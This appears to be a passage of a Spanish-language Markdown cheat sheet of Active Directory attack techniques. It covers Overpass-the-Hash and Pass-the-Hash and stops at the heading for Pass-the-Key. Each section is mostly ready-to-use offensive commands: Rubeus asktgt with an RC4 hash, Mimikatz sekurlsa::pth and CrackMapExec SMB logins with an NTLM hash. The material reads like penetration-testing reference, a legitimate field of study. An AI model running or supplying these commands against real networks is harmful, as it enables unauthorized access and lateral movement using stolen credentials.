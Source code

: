 [Volver al índice](#índice-de-técnicas)

---

## 12. Overpass-the-Hash (OpTH)

| Aspecto         | Detalle                                                                                  |
|-----------------|-----------------------------------------------------------------------------------------|
| **Descripción** | Usa un hash NTLM para solicitar TGT Kerberos.                                           |
| **Condiciones** | Hash NTLM válido.                                                                       |

**Herramientas y comandos:**

- **Windows:**  
  - **Rubeus:**  
    ```powershell
    Rubeus.exe asktgt /user:<user> /rc4:<hash>
    ```
  - **Mimikatz:**  
    ```powershell
    mimikatz # sekurlsa::pth /user:<USER> /domain:<DOMINIO> /ntlm:<HASH>
    ```

[Volver al índice](#índice-de-técnicas)

---

## 13. Pass-the-Hash (PtH)

| Aspecto         | Detalle                                                                                  |
|-----------------|-----------------------------------------------------------------------------------------|
| **Descripción** | Usa el hash NTLM para autenticarse sin contraseña.                                      |
| **Condiciones** | Hash NTLM válido, SMB/WinRM habilitado.                                                 |

**Herramientas y comandos:**

- **Windows:**  
  - **Mimikatz:**  
    ```powershell
    mimikatz # sekurlsa::pth /user:<USER> /domain:<DOMINIO> /ntlm:<HASH>
    ```
- **Linux:**  
  - **CrackMapExec:**  
    ```bash
    crackmapexec smb <IP> -u <user> -H <NTLM>
    ```

[Volver al índice](#índice-de-técnicas)

---

## 14. Pass-the-Key (PTK)
